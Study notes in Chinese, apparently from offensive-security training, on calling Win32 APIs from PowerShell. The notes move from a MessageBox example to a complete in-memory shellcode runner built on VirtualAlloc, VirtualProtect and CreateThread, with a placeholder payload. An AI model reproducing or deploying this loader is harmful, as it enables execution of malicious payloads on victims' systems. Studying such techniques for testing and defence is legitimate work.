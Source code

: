 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)

